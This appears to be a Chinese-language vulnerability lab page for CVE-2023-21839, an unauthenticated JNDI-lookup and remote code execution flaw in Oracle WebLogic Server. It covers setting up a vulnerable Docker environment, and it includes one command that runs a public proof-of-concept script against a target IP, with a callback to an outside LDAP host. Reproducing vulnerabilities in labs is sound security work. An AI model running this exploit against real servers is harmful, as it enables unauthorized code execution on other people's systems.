

WebLogic未授权远程代码执行漏洞 (CVE-2023-21839)¶
Oracle WebLogic Server是业界广泛使用的Java EE企业级应用服务器。
在Oracle 2023年1月安全公告中，Oracle修复了影响WebLogic Server 12.2.1.3.0、12.2.1.4.0和14.1.1.0.0版本的严重安全漏洞CVE-2023-21839。
该漏洞允许未授权远程攻击者通过T3或IIOP协议发起JNDI lookup操作。如果JDK版本过低或本地存在可用的反序列化gadget（javaSerializedData），攻击者可进一步实现远程代码执行（RCE）。
参考链接：
- https://www.oracle.com/security-alerts/cpujan2023.html
- https://nvd.nist.gov/vuln/detail/CVE-2023-21839
- https://github.com/houqe/POC_CVE-2023-21839
环境设置¶
执行以下命令启动WebLogic Server 12.2.1.3漏洞环境：
docker compose up -d
启动完成后，访问http://your-ip:7001/console可以看到WebLogic管理控制台登录页。
漏洞复现¶
你可以使用公开的POC工具https://github.com/houqe/POC_CVE-2023-21839进行漏洞复现。
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://craft.ldap.tld/test
漏洞利用成功后，可在DNSLog平台或LDAP服务端看到来自目标服务器的请求，如下图所示：
